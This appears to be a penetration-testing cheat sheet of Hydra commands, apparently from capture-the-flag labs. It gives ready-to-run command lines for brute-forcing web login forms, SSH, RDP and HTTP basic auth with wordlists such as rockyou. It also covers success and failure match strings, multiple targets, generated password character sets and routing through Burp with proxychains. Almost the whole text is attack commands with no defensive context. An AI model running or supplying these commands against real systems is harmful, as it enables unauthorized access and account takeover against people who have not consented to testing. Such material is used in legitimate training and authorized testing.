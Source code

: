 ##### TLS
Specify port if you use https: `-s 443`
and specify scheme: `https-post-form`

##### Hydra with Burpsuite
```
tail /etc/proxychain.conf
http 127.0.0.1:8080
```

```bash
proxychains -q hydra ...
```

#### POST form:
```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -V
```

```bash
hydra -l milesdyson -P log1.txt $ip http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect" -t 20
```
or success condition: :S=302 or :S=Dashboard
failure condition :F=Invalid

```shell
 hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f 94.237.53.230 -s 30768 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```


Multiple targets:
```shell
hydra -l root -p toor -M targets.txt ssh
```

#### Bruteforce ssh
```bash
 hydra -L users.txt -P passwords.txt 10.129.131.97 ssh
 ```

#### Generate passwords of charset and from 6 to 8 chars:
```shell
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```

#### Bruteforce basic auth
```shell
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81
```
